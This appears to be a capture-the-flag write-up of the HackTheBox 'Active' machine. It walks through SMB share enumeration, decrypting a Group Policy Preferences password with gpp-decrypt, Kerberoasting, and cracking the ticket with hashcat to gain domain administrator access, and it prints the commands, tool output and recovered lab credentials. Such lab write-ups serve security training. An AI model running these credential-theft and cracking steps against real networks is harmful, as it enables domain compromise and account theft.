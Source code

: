 ```yaml
---
layout: post
title: "HackTheBox: Active"
description: A writeup for HackTheBox Active
date:   2024-10-03 08:49 +0530
image:  '/images/post/active.jpg'
tags:   [HackTheBox,htb]
---
```



## Setup
`mkdir -p ~/ctf/HackTheBox/active/scans; cd ~/ctf/HackTheBox/active`
IP Address: 10.10.10.100


`echo "10.10.10.100 active.htb" | sudo tee -a /etc/hosts`
10.10.10.100 active.htb
***
### Enumeration 

`nmap -sC -sV -Pn -p- active.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 active.htb`
```
# nmap findings

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5722/tcp  open  msdfsr           syn-ack
47001/tcp open  winrm            syn-ack
49152/tcp open  unknown          syn-ack
49153/tcp open  unknown          syn-ack
49154/tcp open  unknown          syn-ack
49155/tcp open  unknown          syn-ack
49157/tcp open  unknown          syn-ack
49158/tcp open  unknown          syn-ack
49165/tcp open  unknown          syn-ack
49166/tcp open  unknown          syn-ack
49168/tcp open  unknown          syn-ack

```

`cme smb active.htb -u '' -p '' --shares`  

```
SMB         active.htb      445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         active.htb      445    DC               [+] active.htb\: 
SMB         active.htb      445    DC               [+] Enumerated shares
SMB         active.htb      445    DC               Share           Permissions     Remark
SMB         active.htb      445    DC               -----           -----------     ------
SMB         active.htb      445    DC               ADMIN$                          Remote Admin
SMB         active.htb      445    DC               C$                              Default share
SMB         active.htb      445    DC               IPC$                            Remote IPC
SMB         active.htb      445    DC               NETLOGON                        Logon server share 
SMB         active.htb      445    DC               Replication     READ            
SMB         active.htb      445    DC               SYSVOL                          Logon server share 
SMB         active.htb      445    DC               Users                           
```

Inside Replication directory, Which looked like SYSVOL backup . we find a XML under  `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\groups` ![cbbba79ad423bd5560d5cddb544b0a2b.png]({{site.baseurl}}/images/post/cbbba79ad423bd5560d5cddb544b0a2b.png)

Using [gpp-decrypt](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)
![5e2c4c5cdac10b905e27acf46074c510.png]({{site.baseurl}}/images/post/5e2c4c5cdac10b905e27acf46074c510.png)



```
gpp-decrypt <encrypted cpassword >
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

GPPstillStandingStrong2k18
```

`SVC_TGS:GPPstillStandingStrong2k18`

Using CrackMapExec we see the access for User SVC_TGS
![a5082bd0111660481603c36b3bad0dea.png]({{site.baseurl}}/images/post/a5082bd0111660481603c36b3bad0dea.png)

as SMB We have access to User we can see 
![6fa33424d6b2139303bf0b1e86d85fe3.png]({{site.baseurl}}/images/post/6fa33424d6b2139303bf0b1e86d85fe3.png)

***
# user flag
Location: \SVC_TGS\Desktop\ | Flag: ##################################

***
#### Privilege Escalation
Now as we have TGS service account: we can try Kerboroasting 

![985a997b529dbf101d695bb4813e2a67.png]({{site.baseurl}}/images/post/985a997b529dbf101d695bb4813e2a67.png)

we need resolve the system clock w.r.t to machine clock 

I Found this on medium for this 
![eaeaaed126328b4c2d636e71c1a37e63.png]({{site.baseurl}}/images/post/eaeaaed126328b4c2d636e71c1a37e63.png)

```
 sudo timedatectl set-ntp off 
 sudo rdate -n 10.10.10.100
```

![76ab9017fce1047dce82375134857ce6.png]({{site.baseurl}}/images/post/76ab9017fce1047dce82375134857ce6.png)

`hashcat -m 13100 hashes_kerberoastingg /usr/share/wordlists/rockyou.txt
`
![5cc1b69884eeace5592153006dd26b9d.png]({{site.baseurl}}/images/post/5cc1b69884eeace5592153006dd26b9d.png)
`Administrator:Ticketmaster1968`

using crackmapexec we check privileges and shares 
```
 w3rew01f@w3rew01f  ~/ctf/HackTheBox/active  cme smb active.htb -u 'Administrator' -p 'Ticketmaster1968'           
SMB         active.htb      445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         active.htb      445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
 w3rew01f@w3rew01f  ~/ctf/HackTheBox/active  cme smb active.htb -u 'Administrator' -p 'Ticketmaster1968' --shares
SMB         active.htb      445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         active.htb      445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
SMB         active.htb      445    DC               [+] Enumerated shares
SMB         active.htb      445    DC               Share           Permissions     Remark
SMB         active.htb      445    DC               -----           -----------     ------
SMB         active.htb      445    DC               ADMIN$          READ,WRITE      Remote Admin
SMB         active.htb      445    DC               C$              READ,WRITE      Default share
SMB         active.htb      445    DC               IPC$                            Remote IPC
SMB         active.htb      445    DC               NETLOGON        READ,WRITE      Logon server share 
SMB         active.htb      445    DC               Replication     READ            
SMB         active.htb      445    DC               SYSVOL          READ            Logon server share 
SMB         active.htb      445    DC               Users           READ            

```

using smbclient we get root flag

![d2a35e07513ccdcbee1661bfb3c1f142.png]({{site.baseurl}}/images/post/d2a35e07513ccdcbee1661bfb3c1f142.png)

# root flag
Location: \Users\Administrator\Desktop\ | Flag: 30e625##################################

